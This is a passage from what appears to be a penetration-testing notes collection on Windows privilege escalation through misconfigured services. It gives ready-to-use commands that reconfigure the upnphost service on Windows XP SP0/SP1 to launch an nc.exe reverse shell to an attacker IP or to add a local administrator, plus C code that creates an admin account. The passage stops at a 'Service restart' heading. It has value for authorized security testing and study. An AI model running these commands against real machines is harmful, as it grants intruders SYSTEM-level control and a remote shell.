 The `Metasploit` module `exploit/windows/local/trusted_service_path` can be used
through an existing `meterpreter` session to automatically detect and exploit
unquoted service path to execute a specified payload under `NT AUTHORITY\SYSTEM`
privileges.

######  Windows XP SP0 & SP1

On Windows XP SP0 and SP1, the Windows service `upnphost` is run by
`NT AUTHORITY\LocalService` and grants the permission `SERVICE_ALL_ACCESS` to
all `Authenticated Users`, meaning all authenticated users on the system can
fully modify the service configuration. Du to the End-of-Life status of the
Service Pack affected, the vulnerability will not be fixed and can be used as
an universal privileges escalation method on Windows XP SP0 & SP1.  

```
# accesschk.exe -uwcqv "Authenticated Users" *
# RW upnphost SERVICE_ALL_ACCESS
# sc qc upnphost
# SERVICE_START_NAME : NT AUTHORITY\LocalService

sc config upnphost binpath= "C:\<NC.EXE> -e C:\WINDOWS\System32\cmd.exe <IP> <PORT>"
sc config upnphost binpath= "net user <USERNAME> <PASSWORD> /add && net localgroup Administrators <USERNAME> /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""

net stop upnphost
net start upnphost
```

###### Generate new service binary

*Add a local administrator user*

The following C code can be used to add a local administrator user:

```
#include <stdlib.h>

int main() {
  int i;
  i = system("net user <USERNAME> <PASSWORD> /add");
  i = system("net localgroup administrators <USERNAME> /add");
  return 0;
}
```

The C code above can be compiled on Linux using the  cross-compiler `mingw`
(refer to cross compilation above).

*Reverse shell*

The service can be leveraged to start a privileged reverse shell. Refer to the
`[General] Shells - Binary` note.  

###### Service restart
